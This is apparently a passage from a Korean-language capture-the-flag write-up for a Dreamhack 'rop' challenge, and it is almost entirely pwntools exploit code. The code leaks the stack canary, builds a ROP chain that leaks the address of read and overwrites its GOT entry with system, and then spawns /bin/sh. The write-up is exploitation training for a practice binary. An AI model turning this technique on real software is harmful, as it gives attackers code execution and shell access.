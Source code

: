 ```python
#Exploit
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
# ROPgadget --binary ../exe/rop --re "pop rdi"
pop_rdi = 0x00000000004007f3
pop_rsi_r15 = 0x00000000004007f1

payload = b"A"*buf2canary + p64(cnry) + b"B"*0x8

# puts(read_got) -> read 함수 주소 구하기
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)
 
# read(0, read_got, 0x10) -> got overwire
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

p.sendafter("Buf: ", payload)
read = u64(p.recvn(6)+b"\x00\x00") 
# \x00\x00을 더해주는 이유는 6바이트 크기의 함수 주소를 8바이트로 맞춰주는 것 같다.

# 다음 방법으로 system 주소를 구할 수 있다. (lib에서 함수끼리의 길이는 항상 같기 때문이다.)
lb = read - libc.symbols["read"]
system = lb + libc.symbols["system"]

slog("read", read)
slog("libc_base", lb)
slog("system", system)

p.send(p64(system)+b"/bin/sh\x00") # 뒤에 null값을 추가하여 system 함수에 인자를 넣을 때 딱 "/bin/sh" 문자열만 넣을 수 있다.
p.interactive()
```
<br>

### 02.5 최종 코드

```python
from pwn import *
def slog(name, addr): return success(": ".join([name, hex(addr)]))

e = context.binary =  ELF("../exe/rop")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc = ELF("../libc/libc-2.27.so")

# p = remote("host3.dreamhack.games", 17931)
p = e.process()

context.log_level = 'debug'
pause()

buf2canary = 0x38

# Leak canary
payload = b'A' * (buf2canary + 1)
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
cnry = u64(b"\x00"+p.recvn(7))
slog("canary", cnry)

#Exploit
read_plt = e.plt['read']
```
